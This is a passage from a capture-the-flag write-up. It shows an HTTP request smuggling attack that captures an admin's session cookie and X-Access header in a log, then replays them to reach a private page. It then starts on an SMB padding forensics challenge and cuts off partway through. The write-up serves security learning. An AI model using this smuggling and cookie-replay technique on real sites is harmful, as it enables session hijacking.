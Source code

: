 This is then followed by a second request, which is _not yet completed._

```http
GET /save.php HTTP/1.1
```

When the admin visits the site (the third request), his request is appended to the above incomplete request - the second and third request thus are processed as one single request.

```http
GET /save.php HTTP/1.1

...

Cookie: <Admin Cookies>
X-Access: <Admin X-Access Header>
```

Crucially, this request contains the admin's `Cookie` and `X-Access` headers.

In the log file, we can view the cookie:

```
Params:
Headers:
	X-Access: private
	Cookie: PHPSESSID=8m9k6s84bmdf270tbi81bpacc7
```

Then, visit `private.php` to view the flag.

```http
GET /private.php HTTP/1.1
Host: threeofhearts.ctf.net
X-Access: private
Cookie: PHPSESSID=8m9k6s84bmdf270tbi81bpacc7
```

### Port 35000 \[Network Forensics]

We are provided with a PCAP file, containing some SMB traffic. There are some hints in the traffic:

`What does this protocol use to align fields?`

`A lot of things can happen when structures are not properly aligned`

`But wait... is the actual value matter?`

`Not too much to find here... just regular backups`

`The content is not that useful as it looks like.`

This prompted me to read up on the Microsoft [documentation](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-cifs/a66126d2-a1db-446b-8736-b9f5559c49bd) for SMB requests. One of the details was quite interesting, since the hint talked about alignment.

> Optional padding follows the SMB\_Data block of the SMB\_COM\_CLOSE. If present, the padding is used to align the SMB\_Data.Bytes.Data block to a 16- or 32-bit boundary.

The padding byte in the SMB request exists in order to align the data that follows. But as the documentation specifies, the actual value of the padding byte doesn't matter.
